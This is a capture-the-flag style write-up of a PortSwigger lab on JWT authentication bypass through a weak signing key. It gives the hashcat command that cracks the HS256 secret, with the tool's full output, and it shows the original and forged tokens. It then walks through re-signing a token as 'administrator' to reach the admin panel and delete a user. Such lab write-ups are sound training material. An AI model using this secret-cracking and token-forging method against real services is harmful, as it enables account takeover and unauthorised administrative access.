 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/a479b2ff-0067-4ce9-b2a2-18d6819d6e36)

## Overview :

When implementing JWT applications, developers sometimes make mistakes like forgetting to change default or placeholder secrets. They may even copy and paste code snippets they find online, then forget to change a hardcoded secret that's provided as an example. In this case, **it can be trivial for an attacker to brute-force a server's secret using a wordlist of well-known secrets.**

Hashcat command to bruteforce secret keys -

```bash
 hashcat -a 0 -m 16500 <jwt> <wordlist>
```

## Solution :

> The server uses an extremely weak secret key to both sign and verify tokens. This can be easily brute-forced using a wordlist of
> common secrets. 

Login as wiener using the provided credentials.

In the *HTTP history* tab , we can see that the 3 following requests have JWT.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/43fbce2f-5129-42d7-9f0d-65bfc6cc4171)

Send one of the requests to repeater tab. It has the following JWT token.

```
eyJraWQiOiJjYTlmYmExMy1kZjIyLTRlMTEtODA1OC01YWU1ZDU4MDlkY2QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsInN1YiI6IndpZW5lciIsImV4cCI6MTY5NTYzODQ3MH0.RxzNzDUjrkrCXxv2whRlhcdZF-ObfpUiTLUifY_MU58
```
**Header -**

```json
{
  "kid": "ca9fba13-df22-4e11-8058-5ae5d5809dcd",
  "alg": "HS256"
}
```

**Payload -**

```json
{
  "iss": "portswigger",
  "sub": "wiener",
  "exp": 1695638470
}
```

### Bruteforce the secret using hashcat -

With the help of hashcat , we were able to find the secret key used in the JWT.

```bash
┌──(kali㉿kali)-[~]
└─$ hashcat -a 0 -m 16500 eyJraWQiOiJjYTlmYmExMy1kZjIyLTRlMTEtODA1OC01YWU1ZDU4MDlkY2QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsInN1YiI6IndpZW5lciIsImV4cCI6MTY5NTYzODQ3MH0.RxzNzDUjrkrCXxv2whRlhcdZF-ObfpUiTLUifY_MU58 jwt.secrets.list 
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 3.1+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 15.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
* Device #1: pthread-sandybridge-Intel(R) Core(TM) i5-10310U CPU @ 1.70GHz, 1436/2936 MB (512 MB allocatable), 2MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 0 MB

Dictionary cache built:
* Filename..: jwt.secrets.list
* Passwords.: 103271
* Bytes.....: 1203512
* Keyspace..: 103261
* Runtime...: 0 secs

eyJraWQiOiJjYTlmYmExMy1kZjIyLTRlMTEtODA1OC01YWU1ZDU4MDlkY2QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsInN1YiI6IndpZW5lciIsImV4cCI6MTY5NTYzODQ3MH0.RxzNzDUjrkrCXxv2whRlhcdZF-ObfpUiTLUifY_MU58:secret1
```

So the secret used here is - **secret1**.

### Modify the JWT & Re-sign it -

1. In the Payload section, change `"sub": "wiener"` to `"sub": "administrator"` .
2. Go to **JWT Editor**, and specify the secret-key which we found - `secret1`
   ![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/0ac41f56-d0c4-4fa8-908a-2f8b2f0d088b)
3. Now go to *JSON WEB TOKEN* tab & sign the key.
   ![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/8997a258-237e-4480-a8e8-982eba0e1c1e)

This is the resulting JWT token.

```
eyJraWQiOiJjYTlmYmExMy1kZjIyLTRlMTEtODA1OC01YWU1ZDU4MDlkY2QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsInN1YiI6ImFkbWluaXN0cmF0b3IiLCJleHAiOjE2OTU2Mzg0NzB9.6x0sGjULyvW10Bc-Qmgv68TtfCRD9xd9GBIBlt5Lt68
```

Replace the original token with the one we just created & forward the request.

Now we can see the link to admin panel.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/deb48201-f88d-4cad-9c22-3f515cbd8382)

Delete the user carlos to solve the lab.

![Uploading image.png…]()

